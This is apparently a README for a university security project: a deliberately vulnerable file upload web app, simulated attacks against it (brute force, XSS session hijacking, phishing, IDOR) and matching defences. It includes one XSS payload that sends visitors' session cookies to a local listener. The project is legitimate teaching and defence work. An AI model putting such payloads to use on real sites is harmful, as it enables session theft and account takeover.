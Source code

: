 # ELEC0138 Group 8 – Security and Privacy challenges in a File Upload App

## Overview

This project aims to analyze and address Security and Privacy challenges in a web-based app (File Upload App) by applying threat modeling and mitigation methods. 

Several cyber attacks targeting common vulnerabilities are designed and implemented. Also, relevant mitigation measures are presented.

A vedio presentation of this project can be seen:(https://youtu.be/MD4qnzbECH4)


## Group Members

- Wenjing Hu
- Zoe Qian
- Andreas Tyrovolas


## Features

```
ELEC0138_Group8/
├── Attack/              # Contains different attacks and relevant mitigation methods
├── original_system      # Contains original system with no defences files
├── static/              # Functions of uploading documents
├── templates/           # HTML templates for the web interface
├── combined_defences.py # System with all defences implemented
├── environment.yml      # Conda environment definition
├── initialize_db.py     # Script to initialize the database
└── requirements.txt     # Python package dependencies
```


## Steps

1. **Clone the Repository**

   ```bash
   git clone https://github.com/Wenjing-1225/ELEC0138_Group8.git
   cd ELEC0138_Group8
   ```


2. **Set Up the Environment**

   Create a Conda environment using the provided `environment.yml` file:

   ```bash
   conda env create -f environment.yml
   conda activate elec0138_group8
   ```


   Alternatively, install dependencies using `requirements.txt`:

   ```bash
   pip install -r requirements.txt
   ```


3. **Run the Application**

   Start the main application:

   ```bash
   python original_system/system.py
   ```


   The web interface should now be accessible at `http://localhost:5000/`.


4. **Run the Attack Simulation**

   - **Brute-force Login Attack**:
     
     1. Edit `brute_force.py` to set the target username (e.g. `victim@example.com`)  
     2. Run `brute_force.py`  
        → The script will simulate password guessing attempts by sending repeated login requests using common passwords.  
        → A valid match will be printed to the terminal once found.  
        > This simulates a real-world brute force scenario using multithreading and common credential dictionaries.

   - **Session Hijacking via XSS**:
     
     1. Register a malicious username like:  
        ```html
        <script>new Image().src="http://localhost:8000/steal?cookie="+document.cookie</script>
        ```
     2. Run `listener.py`  
        → This starts a listener on port 8000 to capture incoming cookies.

     3. When a legitimate user visits the homepage, the malicious script will trigger and send their session cookie to the attacker.
     4. Use `hijack_session.py`  
        → Load the captured cookie and simulate a GET request to `/`, gaining unauthorized access as the victim.
   - **Phishing Simulation**:
     
     1. Run `send_phishing.py`  
        → You can modify the `receiver_email` variable to the desired email address.  
        *Please make sure that you have the recipient’s explicit consent before sending any simulated phishing emails.*

     2. Run `app.py`  
        → This will launch the phishing web application.

   - **IDOR Attack Simulation**:

     1. Run `image_attack.py`  
     2. Stolen images will be stored in a separate folder, stolen_images
        
4. **Run the Defense System**

   - **Phishing Detection System**:

     1. Run `model.py`  
        → This initializes and loads the phishing detection model.

     2. Run `combined_defences.py`  
        → This starts the Flask web interface for users to input URLs and receive detection results in Security Center.

   - **IDOR Defence Strategy**:

     1. Run `combined_defences.py`  
     2. This ensures, session based authentication, strict access control, logging and that filenames are securely hashed


